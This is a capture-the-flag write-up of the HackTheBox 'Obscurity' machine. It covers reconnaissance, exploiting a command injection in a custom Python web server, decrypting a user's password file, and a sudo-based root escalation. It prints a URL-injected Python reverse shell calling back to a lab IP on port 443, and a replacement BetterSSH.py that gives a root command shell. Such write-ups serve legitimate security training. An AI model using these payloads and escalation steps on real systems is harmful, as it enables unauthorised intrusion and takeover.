 ```yaml
---
author: k0z4c
title: Obscurity
tags: hackthebox
---
```


## **Getting Access**

We start with

```bash
nmap -Pn -n -O -sC -vv -oA nmap/tcp_default obscurity
```

![]({% link assets/htb/obscurity/nmap.png %})

Looking at port 8080 and reading the home page we can see that there's a file somewhere on the webserver  called SuperSecureServer.py 

![]({% link assets/htb/obscurity/hint.png %})

We can try to fuzz the URL http://obscurity:8080 to search for that file; so we fire up dirbuster and we set URL fuzzing 
with this value /{dir}/SuperSecureServer.py using the wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt .

![]({% link assets/htb/obscurity/dirb.png %})

Let's download the file!

![]({% link assets/htb/obscurity/download.png %})

Diving into the source code we can see that handleRequest is the method of the class Server that perform the business logic 

![]({% link assets/htb/obscurity/handle.png %})

So looking at it, we can spot a command injection point in the called function serveDoc

![]({% link assets/htb/obscurity/injection.png %})

So we can inject commands simply doing an HTTP request that closes the quotes with:

```bash
'; <payload>;'
```

So we inject a reverse shell coded in python as the payload. 
Then, doing this HTTP request that will spawn a reverse shell on 443

```python
http://obscurity:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.44",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

So, after firing up a netcat linstener on 443 to handle the connection back,  we do:
(the URL is encoded with URL encoding) 

![]({% link assets/htb/obscurity/inj_exploit.png %})

... and voila!

![]({% link assets/htb/obscurity/user.png %})

## **Privilege escalation to user**

Poking around we find robert's folder 

![]({% link assets/htb/obscurity/robert.png %})

Let's see.. passwordreminider.txt is encrypted. So, analyzing SuperSecureCrypt.py nothing interesting is found.. 
So trying with the things we have, we end up that the user ciphered the key for passwrodreminder.txt (out.txt) with check.txt. 

Manipulating now a quick decrypter that reads the key from a file

```python
# file decrypt.py 

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

if __name__ == '__main__':

        with open('check.txt', 'r', encoding='UTF-8') as f:
                key = f.read()

        with open('out.txt', 'r', encoding='UTF-8') as f:
                text = f.read()
        decrypted = decrypt(text, key)
        print(decrypted)
```

Then we recover the key for passwrodreminder.txt

![]({% link assets/htb/obscurity/mid.png %})

We save the result in a file called key.txt. Then changing in our script the key file with key.txt and out.txt with the passwordreminder.txt and we get the password:

![]({% link assets/htb/obscurity/key.png %})

.. OKay, what next? 
There was an SSH port opened.. let's try!

So, Connecting now through SSH with the new key we log as robert user

![]({% link assets/htb/obscurity/login.png %})

Now we can read the user's flag

![]({% link assets/htb/obscurity/user_flag.png %})

user pwnd!

let's move forward

## Privilege escalation for root

Looking at the BetterSSH.py script we see that it uses sudo; so it is enabled on the system and user robert is in the sudoers file too.
Then let's check robert's sudo privileges

![]({% link assets/htb/obscurity/sudo.png %})

So roberts can execute BetterSSH.py with root privileges without requiring a password neither.

The first thing that came on to my mind was to backdoor the file but we can not modify the script (owned by root). 
So after a while, we can spot that yes, we can not modify the file but we can modify the folder

![]({% link assets/htb/obscurity/spot.png %})

so.. we can implant a new  script with the name BetterSSH.py that spawns a root shell. 
Very very bad, mr. Robert!

Writing then a quick script to obtain a shell through python (recycle, man) and saving it as BetterSSH.py in a new BetterSSH folder:
(remember to mv the original one like mv BetterSSH smth)

```python
# BetterSSH.py
while True:
    command = input('> ')
    cmd.extend(command.split(" "))
    proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

    o,e = proc.communicate()
    print('Output: ' + o.decode('ascii'))
    print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

let's execute now the script with sudo 

![]({% link assets/htb/obscurity/root.png %})

... pwned (:
